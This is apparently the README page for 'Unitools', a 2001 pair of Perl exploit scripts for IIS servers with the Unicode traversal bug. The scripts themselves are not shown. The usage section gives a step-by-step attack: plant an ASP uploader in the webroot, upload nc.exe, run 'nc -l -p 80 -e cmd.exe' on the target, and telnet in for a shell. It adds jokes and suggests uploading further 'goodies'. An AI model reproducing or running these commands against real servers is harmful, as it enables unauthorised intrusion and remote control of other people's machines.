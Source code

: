 #1. Name
Unitools - for working with IIS servers with the Unicode bug
#2. Author
Roelof Temmingh
#3. License, version & release date
License : GPLv2  
Version : v1.0  
Release Date : 2001/01/24

#4. Description
Unitools.tgz contains two perl scripts - unicodeloader.pl uploads files to a vulnerable IIS site, and unicodexecute3.pl includes searches for more executable directories and is more robust and stable

#4.1 unicodeloader.pl

Works like this - two files (upload.asp and upload.inc - have
it in the same dir as the PERL script) are build in the webroot
(or anywhere else) using echo and some conversion strings.
These files allows you to upload any file by
simply surfing with a browser to the server.
See usage to see how to get a shell.

#4.2 unicodexecute3.pl

- includes searches for alternative executable dirs
- more robust, stable than before
- checks for access denied added
- thnx to MH for testing etc.
#5. Usage
#5.1 Unicode upload creator (unicodeloader.pl)

Typical use: (5 easy steps to a shell)
1. Find the webroot (duh)- let say its f:\the web pages\theroot
2. perl unicodeloader target:80 'f:\the web pages\theroot'
3. surf to target/upload.asp and upload nc.exe
4. perl unicodexecute3.pl target:80 'f:\the web pages\theroot\nc -l -p 80 -e cmd.exe'
5. telnet target 80

Above procedure will drop you into a shell on the box
without crashing the server (*winks at Eeye*).

Of coure you might want to upload other goodies as well
right after nc.exe - fscan.exe seems a good choice :)

This procedure is nice for servers that are very tightly
firewalled; servers that are not allowed to FTP, RCP or TFTP
to the Internet.

Note: kids, please have a *good* look at the code before you use it :-]
More info on Unicode at  
http://www.securityfocus.com/vdb/bottom.html?section=exploit&vid=1806

#5.2 Unicodexecute version3 (unicodexecute3.pl)

Usage is same as previous version:
unicodexecute3.pl target:port 'command'
#6. Requirements
Perl & Vulnerable IIS server
#7. Additional Resources 
http://www.securityfocus.com/vdb/bottom.html?section=exploit&vid=1806
